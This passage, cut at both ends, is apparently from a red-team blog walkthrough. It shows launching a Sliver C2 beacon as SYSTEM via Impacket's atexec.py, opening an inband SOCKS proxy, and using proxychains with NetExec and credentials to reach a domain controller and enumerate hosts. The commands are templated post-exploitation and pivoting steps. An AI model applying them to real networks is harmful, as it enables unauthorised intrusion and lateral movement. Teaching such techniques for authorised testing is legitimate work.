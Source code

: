 But we're lazy, so we can actually just execute beacon from Linux using [`atexec.py`](https://tools.thehacker.recipes/impacket/examples/atexec.py) which runs a command using the task scheduler remotely (which runs at the SYSTEM context).

```bash
atexec.py [domain_name]/[username]:[password]@[workstation_ip] [command]
```

![5](https://i.gyazo.com/781c1fac5e026f519406b8d295761ba3.png)

And now we have a SYSTEM beacon on the workstation.

![6](https://i.gyazo.com/39f0009a5692943ff904d553b5618d6e.png)

In order to proxy all our commands through the workstation, we'll need to set up an inband socks proxy.

```bash
sliver> socks5 start
```

> Sliver's inband socks proxy tends to be unstable on some protocols, and listens on the default port of **1081** on the operator's machine; remember to modify your `/etc/proxychains4.conf` file to reflect this.

### Resolving the Domain Controller

Now, we can verify that we can interact with the domain controller through `proxychains`

```bash
proxychains nxc smb [IP/FQDN] -u [username] -p [password]
```

![7](https://i.gyazo.com/91fd5366945f3240229fbbce459736d3.png)

### Resolving Other Hosts

There are a couple ways to resolve the other hosts in the network, the smart and methodical way would be to identify a list of workstations and servers in the network; then resolve them with `dig`.

The lazy way would be to resolve them by `nxc smb` sweeping the network, I'll show both methods here.

#### Methodical Way (ew)

```bash
proxychains nxc ldap [IP/FQDN] -u [username] -p [password] -M get-network -o ONLY_HOSTS=true
```

![8](https://i.gyazo.com/b7629cf5799f33addabd7df0b0d89b11.png)

This gives you a list of all the hosts in the network

![9](https://i.gyazo.com/4bdcca0d9e982b83438108e97d7c4b9f.png)

Which you can then resolve with this command, but this takes forever so I wouldn't personally do it this way :)
